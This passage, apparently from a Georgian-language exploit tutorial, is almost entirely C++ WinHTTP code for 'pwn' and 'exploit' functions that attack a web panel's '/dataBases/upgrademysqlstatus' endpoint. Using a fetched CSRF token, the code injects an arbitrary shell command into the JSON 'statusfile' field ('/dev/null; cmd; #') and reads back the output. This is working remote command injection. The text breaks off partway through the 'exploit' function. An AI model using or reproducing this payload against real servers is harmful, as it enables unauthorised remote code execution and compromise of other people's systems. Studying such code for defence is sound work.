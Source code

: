 ასევე დასაწერია `pwn` და `exploit` ფუნქციები, რომლებიც მიღებული `csrf_token`-ით ეცდებიან საიტის ექსპლუატაციას:

```C++
std::wstring pwn(HINTERNET hConnect, const std::wstring& CSRF_token, const std::wstring& cmd) {
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect, L"PUT", L"/dataBases/upgrademysqlstatus", NULL,
        WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE
    );

    std::wstring headers = L"X-CSRFToken: " + CSRF_token + L"\r\n"
        L"Content-Type: application/json\r\n";
    std::wstring payload = L"{\"statusfile\":\"/dev/null; " + cmd + L"; #\",\"csrftoken\":\"" + CSRF_token + L"\"}";

    if (!WinHttpSendRequest(hRequest, headers.c_str(), headers.length(), (LPVOID)payload.c_str(), payload.length() * sizeof(wchar_t), payload.length() * sizeof(wchar_t), 0) || !WinHttpReceiveResponse(hRequest, NULL)) {
        WinHttpCloseHandle(hRequest);

        return L"";
    }

    DWORD dwSize = 0, dwDownloaded = 0;
    std::wstring response;
    do {
        WinHttpQueryDataAvailable(hRequest, &dwSize);
        if (dwSize > 0) {
            wchar_t* buffer = new wchar_t[dwSize / sizeof(wchar_t) + 1];
            ZeroMemory(buffer, dwSize + sizeof(wchar_t));

            WinHttpReadData(hRequest, (LPVOID)buffer, dwSize, &dwDownloaded);
            response.append(buffer, dwDownloaded / sizeof(wchar_t));

            delete[] buffer;
        }
    } while (dwSize > 0);

    WinHttpCloseHandle(hRequest);

    return response;
}

void exploit(const std::wstring& target, const std::wstring& cmd) {
    HINTERNET hSession = WinHttpOpen(L"A WinHTTP Example Program/1.0", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    if (!hSession) {
        return;
    }

    HINTERNET hConnect = WinHttpConnect(hSession, target.c_str(), INTERNET_DEFAULT_HTTPS_PORT, 0);
    if (!hConnect) {
        WinHttpCloseHandle(hSession);

        return;
    }

    std::wstring CSRF_token = get_CSRF_token(hConnect);
    if (CSRF_token.empty()) {
        WinHttpCloseHandle(hConnect);
        WinHttpCloseHandle(hSession);

        return;
    }
```